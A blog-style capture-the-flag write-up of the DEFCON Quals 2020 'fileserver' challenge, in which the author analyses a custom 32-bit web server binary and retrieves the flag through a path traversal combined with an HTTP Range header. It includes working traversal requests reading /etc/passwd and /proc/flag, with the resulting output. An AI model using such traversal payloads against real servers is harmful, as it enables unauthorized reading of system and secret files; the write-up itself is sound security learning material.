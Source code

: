 ```yaml
---
title: "Pwning a DEFCON Quals binary without pwning it"
categories:
  - Blog
tags:
  - Post Formats
  - readability
  - standard
---
```


Story time, before getting to the write up. I played the pwnables of DEFCON Quals 2020, mainly because it's very fun, and also because I wanted to see what the content would look like, given the remote nature of the contest.

I ended up pwning all three of them, and the writeups can be found [here](https://github.com/naliferopoulos/defcon-quals-2020). Err, not exactly though. I managed to get the last flag, *fileserver*, without pwning the binary whatsoever and that ended up in a funny chat with the DEFCON staff, as well as a prize award! Thanks guys! :)

### DEFCON Qualifiers - Fileserver

For this one, we were given a domain name and a port, but no binary. Behind the remote port there was a webserver, which seemed custom made, and among other things, allowed us to download a compiled copy of itself (we figured that out later on) targeted against 32-bit Linux. 

Evidently, at the time, I though that I was supposed to pwn the binary in order to win. The challenge, just like the previous ones, instructed us to find the flag at */proc/flag*, a fact I did not mention for the previous ones, but which plays an important role for this one.

On to the write up though.

#### Huh?

At first glance, the binary looks like this:

```bash
➜  fileserver checksec target
[*] '/vagrant/DEFCON/fileserver/target'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Also, readelf shows the following, as far as symbols are concerned (basic *snip snip* has occured):

```bash
➜  fileserver readelf -s target | grep -v "@GLIB"

Symbol table '.symtab' contains 127 entries:
   Num:    Value  Size Type    Bind   Vis      Ndx Name
    38: 08048cda   218 FUNC    LOCAL  DEFAULT   14 rio_read
    39: 08049320   110 FUNC    LOCAL  DEFAULT   14 get_mime_type
    56: 0804972f    98 FUNC    GLOBAL DEFAULT   14 log_access
    58: 0804c0e0   112 OBJECT  GLOBAL DEFAULT   25 meme_types
    67: 08049498   154 FUNC    GLOBAL DEFAULT   14 url_decode
    69: 08049c5f   553 FUNC    GLOBAL DEFAULT   14 process
    74: 0804c150     4 OBJECT  GLOBAL DEFAULT   25 default_mime_type
    85: 08048f4d   979 FUNC    GLOBAL DEFAULT   14 handle_directory_request
    91: 08048db4   137 FUNC    GLOBAL DEFAULT   14 rio_readlineb
    95: 08049b8e   209 FUNC    GLOBAL DEFAULT   14 display_admin_page
   103: 08049e88   371 FUNC    GLOBAL DEFAULT   14 main
   113: 08048c59   129 FUNC    GLOBAL DEFAULT   14 writen
   114: 08049532   509 FUNC    GLOBAL DEFAULT   14 parse_request
   117: 08048c2b    46 FUNC    GLOBAL DEFAULT   14 rio_readinitb
   120: 0804938e   266 FUNC    GLOBAL DEFAULT   14 open_listenfd
   122: 080498b7   727 FUNC    GLOBAL DEFAULT   14 serve_static
   126: 08049791   294 FUNC    GLOBAL DEFAULT   14 client_error
```

The binary is fully symbolicated, but it still contains a bunch of functionality, so we are going to have to take a deeper look at this.

Before doing so, I decided to take a look at the fileserver instance running on the remote host, in order to get a better feel for the target before jumping into static analysis.

That is when I noticed a path traversal vulnerability. By issuing the following HTTP request:

```
➜  fileserver

GET /../../../../../../etc/passwd HTTP/1.0
```

I received the following response:

```
HTTP/1.1 200 OK
Accept-Ranges: bytes
Cache-Control: no-cache
Content-length: 1561
Content-type: text/plain

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
statd:x:108:65534::/var/lib/nfs:/bin/false
sshd:x:109:65534::/var/run/sshd:/usr/sbin/nologin
vagrant:x:900:900:vagrant,,,:/home/vagrant:/usr/bin/zsh
vboxadd:x:999:1::/var/run/vboxadd:/bin/false
```

That is when I got excited, and tried it against the remote host, without any luck. I could only reproduce it locally. While the vulnerability was present, I could not force the server to return the file to me. I could only list directories using the traversal. Bummer :/

I then scrapped the idea of dynamically getting a feel of the target, considering that the challenge category was pwning, and loaded the binary into IDA. After browsing around the disassembly for a bit, the following caught my attention. During *parse_request*, the binary treated incoming requests differently, based on the presence of a Range HTTP Request Header, or more accurately, **"Ran"**.

```
.text:080495BA                 sub     esp, 4
.text:080495BD                 push    400h
.text:080495C2                 lea     eax, [ebp+s1]
.text:080495C8                 push    eax
.text:080495C9                 lea     eax, [ebp+var_420]
.text:080495CF                 push    eax
.text:080495D0                 call    rio_readlineb
.text:080495D5                 add     esp, 10h
.text:080495D8                 movzx   eax, [ebp+s1]
.text:080495DF                 cmp     al, 52h ; 'R'
.text:080495E1                 jnz     short loc_8049644
.text:080495E3                 movzx   eax, [ebp+var_81F]
.text:080495EA                 cmp     al, 61h ; 'a'
.text:080495EC                 jnz     short loc_8049644
.text:080495EE                 movzx   eax, [ebp+var_81E]
.text:080495F5                 cmp     al, 6Eh ; 'n'
.text:080495F7                 jnz     short loc_8049644
.text:080495F9                 mov     eax, [ebp+arg_4]
.text:080495FC                 lea     edx, [eax+204h]
.text:08049602                 mov     eax, [ebp+arg_4]
.text:08049605                 add     eax, 200h
.text:0804960A                 push    edx
.text:0804960B                 push    eax
.text:0804960C                 lea     eax, (aRangeBytesLuLu - 804C000h)[ebx] ; "Range: bytes=%lu-%lu"
.text:08049612                 push    eax
.text:08049613                 lea     eax, [ebp+s1]
.text:08049619                 push    eax
.text:0804961A                 call    ___isoc99_sscanf
```

We can follow the bahavioral change down to **serve_static**, which in the case of a Range header present, *snprintf()'s* the selected part of the file to the response buffer, while the other code path simply skips over it in the case of a file. After all, the juicy part of the (intened solution to the) challenge was getting to the admin page (*page* as in *directory*).

Bingo! While the remote instance won't let us use the directory traversal to fetch files (this is how it was intended to be played), by supplying a range header, we could get it to do so!

```
GET /../../../../../proc/flag HTTP/1.0
Range: bytes=0-90
```

Aaaaaaand:

```
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: **redacted**
Cache-Control: no-cache
Accept-Ranges: bytes

**redacted**
```

There it is, we just got the flag using more web stuff than pwning stuff! I know that's a broad definition of what "web stuff" and "pwning stuff" is, but I contacted the DEFCON team afterwards and they informed me that this was not the inteded solution. 

Considering this, I would far more have loved to actually pwn the challenge, as it is a 400pts DEFCON Quals one, but nonetheless, the hax were for once *pretty-cool-hax™*.